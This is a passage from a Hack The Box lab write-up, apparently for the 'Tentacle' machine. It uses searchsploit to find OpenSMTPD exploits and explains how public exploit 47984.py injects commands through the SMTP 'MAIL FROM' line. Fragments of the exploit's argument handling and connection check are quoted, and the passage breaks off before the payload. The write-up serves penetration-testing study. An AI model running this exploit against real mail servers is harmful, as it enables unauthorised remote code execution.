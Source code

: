 ```
OpenSMTPD - MAIL FROM Remote Code Execution (Metasploit)                                                                                                                          | linux/remote/48038.rb
OpenSMTPD - OOB Read Local Privilege Escalation (Metasploit)                                                                                                                      | linux/local/48185.rb
OpenSMTPD 6.4.0 < 6.6.1 - Local Privilege Escalation + Remote Code Execution                                                                                                      | openbsd/remote/48051.pl
OpenSMTPD 6.6.1 - Remote Code Execution                                                                                                                                           | linux/remote/47984.py
OpenSMTPD 6.6.3 - Arbitrary File Read                                                                                                                                             | linux/remote/48139.c
OpenSMTPD < 6.6.3p1 - Local Privilege Escalation + Remote Code Execution                                                                                                          | openbsd/remote/48140.c
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```
Remote code execution **linux/remote/47984.py** looks interesting!
```
──(kali㉿kali)-[~/Documents/Other/HacktheBox/tentacel]
└─$ sudo searchsploit -m linux/remote/47984.py
  Exploit: OpenSMTPD 6.6.1 - Remote Code Execution
      URL: https://www.exploit-db.com/exploits/47984
     Path: /usr/share/exploitdb/exploits/linux/remote/47984.py
File Type: Python script, ASCII text executable

Copied to: /home/kali/Documents/Other/HacktheBox/tentacel/47984.py

```

## Exploiting OpenSMTPD 2.0.0
So what the script does is a command injection in the 'MAIL FROM' line.
The script will ask for a **Ip** address, **port** and **payload** 

it stores the third argument (which is the payload) into the **CMD** variable as seen below:
```python

if len(sys.argv) != 4:
    print('Usage {} <target ip> <target port> <command>'.format(sys.argv[0]))
    print("E.g. {} 127.0.0.1 25 'touch /tmp/x'".format(sys.argv[0]))
    sys.exit(1)

ADDR = sys.argv[1]
PORT = int(sys.argv[2])
CMD = sys.argv[3]
```
First it checks the connection by sending an **HELO x** response 
```python

print('[*] OpenSMTPD detected')
s.send(b'HELO x\r\n')
res = s.recv(1024)
if '250' not in str(res):
    print('[!] Error connecting, expected 250')
    print('[!] Received: {}'.format(str(res)))
    print('[!] Exiting...')
    sys.exit(1)
```